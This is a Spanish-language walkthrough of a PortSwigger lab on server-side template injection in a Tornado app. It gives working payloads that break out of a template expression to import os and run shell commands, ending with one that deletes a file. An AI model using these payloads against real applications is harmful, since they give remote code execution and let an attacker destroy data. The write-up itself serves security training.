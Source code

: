 ```yaml
---
title: "Basic server-side template injection (code context)"
description: "Laboratorio de Portswigger sobre SSTI"
date: 2024-11-22 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SSTI
tags:
  - SSTI
  - Basic server-side template injection (code context)
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` es `vulnerable` a un `Server Side Template Injection` debido a la forma insegura en que utiliza una `plantilla` de `Tornado`. Para resolver el laboratorio, hay que `revisar` la `documentación` de `Tornado` para descubrir cómo `ejecutar comandos` y luego `eliminar` el archivo `morale.txt` del `directorio` personal de `Carlos`. Podemos `iniciar sesión` en nuestra propia `cuenta` utilizando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SSTI-Lab-2/image_1.png)

Pulsamos en `My account` y nos `logueamos` usando las credenciales `wiener:peter`

![](/assets/img/SSTI-Lab-2/image_2.png)

Al `loguearnos` vemos esto

![](/assets/img/SSTI-Lab-2/image_3.png)

Si nos metemos en cualquier `artículo` veremos que podemos `comentar`

![](/assets/img/SSTI-Lab-2/image_4.png)

En la parte de `My account` cambiamos el `Preferred name`

![](/assets/img/SSTI-Lab-2/image_5.png)

El nombre en el `chat` también `cambia`

![](/assets/img/SSTI-Lab-2/image_6.png)

Si `capturamos` la `petición` de cambio de `nombre` en `Preferred name` vemos que se está `enviando` un `objeto`

![](/assets/img/SSTI-Lab-2/image_7.png)

Hacemos referencia a una `propiedad` del `objeto inexistente`

```
blog-post-author-display=user.NO_EXISTE&csrf=IXe3uTQJV2yzx6Rqz6N0EbMOf8ZkMUQ6
```

Si nos dirigimos a la parte de las `publicaciones` obtendremos un `error` mediante el cual podemos identificar el `template` que se está usando

![](/assets/img/SSTI-Lab-2/image_8.png)

Nos dirigimos a hacktricks [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#tornado-python](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#tornado-python), probamos los `payload` para esta `plantilla` y vemos que funciona

{% raw %}
```
blog-post-author-display={{7*7}}&csrf=IXe3uTQJV2yzx6Rqz6N0EbMOf8ZkMUQ6
```
{% endraw %}

![](/assets/img/SSTI-Lab-2/image_9.png)

Nos vamos a [https://www.tornadoweb.org/en/stable/guide/templates.html](https://www.tornadoweb.org/en/stable/guide/templates.html) y observamos que los objetos se cargan entre {% raw %} `{{ }}` {% endraw %}

![](/assets/img/SSTI-Lab-2/image_10.png)

`Enviamos` este `payload`

{% raw %}
```
blog-post-author-display=}}{% import os %}{{os.system('whoami')&csrf=IXe3uTQJV2yzx6Rqz6N0EbMOf8ZkMUQ6
```
{% endraw %}

`Obtenemos` este `error`

![](/assets/img/SSTI-Lab-2/image_11.png)

Probamos este `payload` en el que hacemos referencia al `objeto user`

{% raw %}
```
blog-post-author-display=user.name}}{% import os%}{{os.system('ls')&csrf=IXe3uTQJV2yzx6Rqz6N0EbMOf8ZkMUQ6
```
{% endraw %}

Vemos que se ha listado el archivo `morale.txt`

![](/assets/img/SSTI-Lab-2/image_12.png)

`Borramos` el archivo `morale.txt` y `resolvemos` el `laboratorio`

{% raw %}
```
blog-post-author-display=user.name}}{% import os%}{{os.system('rm morale.txt')&csrf=IXe3uTQJV2yzx6Rqz6N0EbMOf8ZkMUQ6
```
{% endraw %}
